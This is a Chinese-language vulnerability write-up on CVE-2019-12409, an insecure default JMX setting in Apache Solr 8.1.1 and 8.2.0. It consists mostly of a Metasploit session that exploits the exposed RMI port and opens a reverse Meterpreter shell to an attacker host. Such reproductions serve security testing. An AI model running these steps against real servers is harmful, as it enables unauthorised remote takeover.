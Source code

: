 （CVE-2019-12409）Apache Solr JMX 远程命令执行漏洞
==================================================

一、漏洞简介
------------

**Linux** 下的环境下的Apache Solr 8.1.1和8.2.0版本

存在默认不安全配置在***solr.sh***`ENABLE_REMOTE_JMX_OPTS="true"`,将导致启用JMX监视服务并将公网监听一个18983的RMI端口，且无需进行任何身份验证。

二、漏洞影响
------------

Apache Solr 8.1.1和8.2.0版本

三、复现过程
------------

    msf5 > use multi/misc/java_jmx_server
    msf5 exploit(multi/misc/java_jmx_server) > show options

    Module options (exploit/multi/misc/java_jmx_server):

       Name          Current Setting  Required  Description
       ----          ---------------  --------  -----------
       JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
       JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
       JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
       RHOSTS                         yes       The target address range or CIDR identifier
       RPORT                          yes       The target port (TCP)
       SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT       8080             yes       The local port to listen on.
       SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                        no        The URI to use for this exploit (default is random)


    Exploit target:

       Id  Name
       --  ----
       0   Generic (Java Payload)


    msf5 exploit(multi/misc/java_jmx_server) > set RHOSTS a.a.a.a
    RHOSTS => a.a.a.a
    msf5 exploit(multi/misc/java_jmx_server) > set RPORT 18983
    RPORT => 18983
    msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
    payload => java/meterpreter/reverse_tcp
    msf5 exploit(multi/misc/java_jmx_server) > show options

    Module options (exploit/multi/misc/java_jmx_server):

       Name          Current Setting  Required  Description
       ----          ---------------  --------  -----------
       JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
       JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
       JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
       RHOSTS        a.a.a.a     yes       The target address range or CIDR identifier
       RPORT         18983            yes       The target port (TCP)
       SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT       8080             yes       The local port to listen on.
       SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                        no        The URI to use for this exploit (default is random)


    Payload options (java/meterpreter/reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST                   yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Generic (Java Payload)


    msf5 exploit(multi/misc/java_jmx_server) > set LHOST b.b.b.b
    LHOST => b.b.b.b
    msf5 exploit(multi/misc/java_jmx_server) > run
    [*] Started reverse TCP handler on b.b.b.b:4444
    [*] a.a.a.a:18983 - Using URL: http://b.b.b.b:8080/OcbYS8uaTPDH
    [*] a.a.a.a:18983 - Sending RMI Header...
    [*] a.a.a.a:18983 - Discovering the JMXRMI endpoint...
    [+] a.a.a.a:18983 - JMXRMI endpoint on a.a.a.a:18983
    [*] a.a.a.a:18983 - Proceeding with handshake...
    [+] a.a.a.a:18983 - Handshake with JMX MBean server on a.a.a.a:18983
    [*] a.a.a.a:18983 - Loading payload...
    [*] a.a.a.a:18983 - Replied to request for mlet
    [*] a.a.a.a:18983 - Replied to request for payload JAR
    [*] a.a.a.a:18983 - Executing payload...
    [*] a.a.a.a:18983 - Replied to request for payload JAR
    [*] Sending stage (53867 bytes) to a.a.a.a
    [*] Meterpreter session 1 opened (a.a.a.a:4444 -> b.b.b.b:46582) at 2019-11-21 15:24:53 +0000

    meterpreter >
